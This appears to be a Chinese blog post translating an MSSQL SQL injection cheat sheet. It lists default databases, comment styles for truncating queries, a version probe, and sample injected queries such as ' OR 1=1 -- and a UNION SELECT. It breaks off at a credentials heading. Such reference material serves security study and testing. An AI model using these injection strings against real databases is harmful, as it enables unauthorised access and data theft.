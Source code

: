 ```yaml
---
title: SQLi MSSQL基础知识
date: 2018-03-21 15:54:24
tags:
		- SQLi
		- 翻译
		 
categories:
		- 翻译
---
```


翻译：SQL注入之MSSQL篇。




#### [MSSQL](https://websec.ca/kb/sql_injection#MSSQL_Default_Databases)


#### 默认数据库

	pubs	Not available on MSSQL 2005
	model	Available in all versions
	msdb	Available in all versions
	tempdb	Available in all versions
	northwind	Available in all versions
	information_schema	Availalble from MSSQL 2000 and higher

#### 注释

当你在注入的时候，以下可以注释掉查询的其他部分

	/*	C-style comment
	--	SQL comment
	;%00	Nullbyte

__例子__

	SELECT * FROM Users WHERE username = '' OR 1=1 --' AND password = '';
	SELECT * FROM Users WHERE id = '' UNION SELECT 1, 2, 3/*';


#### 版本

	@@VERSION

__例子__

	True if MSSQL version is 2008.
	SELECT * FROM Users WHERE id = '1' AND @@VERSION LIKE '%2008%';

输出也会包含`Windows`操作系统的版本。


#### 数据库凭证
